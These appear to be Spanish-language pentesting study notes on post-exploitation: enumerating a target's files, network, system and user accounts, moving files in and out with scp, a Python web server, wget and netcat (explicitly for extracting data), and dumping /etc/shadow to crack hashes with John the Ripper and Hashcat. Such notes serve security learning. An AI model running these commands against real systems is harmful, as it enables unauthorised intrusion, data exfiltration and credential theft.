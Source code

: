 # Compilar información de archivos en el destino

## Descripción
Recopilamos información sobre los archivos del sistema objetivo, como nombres, tamaños, permisos y fechas de modificación.

## Herramientas
Para recopilar información sobre un directorio, podemos hacerlo gracias a los comandos que tenemos en el sistema.

Linux:
`find /directorio/a/enumerar -type f -exec ls -l {} \;`

Windows:
`dir /s /p /q`
`tree /f`

# Enumerar información de red de archivos en el destino

## Descripción 
Recopilar detalles sobre la configuración de red del objetivo, como las interfaces, ip, rutas y firewall.

## Herramientas

Linux:
Para reconocer la red en linux, tenemos los distintos comandos.
`ip a`
`ip route`
`route -n`
`iptables -L`

Windows:
`ipconfig /all`
`route print`
`netstat -r`
`netstat -nabo`
`netsh firewall show state`

# Enumerar la información del sistema en el objetivo

## Descripción
Para enumerar la información del sistema, necesitaremos sacar la versión del sistema operativo, parches instalados, servicios en ejecución y hardware


## Herramientas

Linux:
`uname -a`
`lsb_release -a`
`ps aux`
`df -h`

Windows:
`systeminfo`
`tasklist`
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

Info discos:
``wmic diskdrive get Caption, DeviceID, Size, MediaType
wmic logicaldisk get Name, Size, FreeSpace``


# Recopilar información de la cuenta de usuario en el objetivo

## Descripción
Obtener información sobre las cuentas de usuario en el sistema, incluyendo nombres de usuario, grupos y permisos

## Herramientas

Linux:
`cat /etc/passwd`
`cat /etc/group`
`id usuario`

Windows:
`net user`
`net group`


# Transferir archivos hacia y desde el destino
## Descripción
Transferir archivos hacia y desde el objetivo, puede ser útil para obtener herramientas en el objetivo y también para extraer datos.

## Herramientas
SSH:
`scp archivoPasar usuario@remoteip:/ruta/de/destino`
`scp usuario@remoteip:/ruta/del/archivo archivoCoger`

Python:
Con python podemos hacer un servidor web muy facilmente.
`python3 -m http.server 80`

Esto empezará un servidor web en el puerto 80, en el directorio que hayamos ejecutado el comando. Lo que nos permitirá coger cosas del servidor con un wget.
`wget ipPythonServer/archivo`

Netcat:

Emisor:
`nc remoteIP PORT < archivo`

Receptor:
`nc -nvlp PORT > archivo`

Esto transferirá el archivo. 

# Recopilar información de hash/contraseña del objetivo

## Descripción

Extraer hashes de contraseñas , tanto de base de datos como en scripts... E intentar crackearlas. También puede ser que encontremos alguna contraseña en texto plano.

## Herramientas
John the ripper:
Con esta herramienta podemos hacer ataques de fuerza bruta a hashes de contraseña.

Practica de ejemplo:
`unshadow /etc/passwd /etc/shadow > password.txt`

`john --wordlist=/path/to/dictionary password.txt`

`john --wordlist=/home/kali/contraas.txt  hash.txt --format=crypt ` "--format=crypt(sirve para yescrypt que es el hash de la pass de linux)"

`john --show password.txt`


Con john podemos adaptarnos a diferentes formatos de hash y tipos de archivos protegidos por contraseña. Existen unas herramientas que convierten estos archivos o hashes a un formato legible para john the ripper. Estas herramientas son programas conocidos como 2john. Ej:
zip2john -- rar2john -- pdf2john -- keepass2john...

Hashcat

Con esta herramienta también podemos hacer ataques de fuerza bruta a contraseñas.

Ejemplos de uso:

`hashcat -m 0 -a 0 hash.txt rockyou.txt`

Con -m especificamos el tipo de hash (MD5 en este caso)
-a especifica el modo de ataque (ataque de diccionario)
Primero se pone el archivo donde tenemos el hash a crackear y luego ponemos el diccionario 

![[Pasted image 20240726123331.png]]
Para saber el tipo de hash que es, podemos utilizar la herramienta de hash-identifier
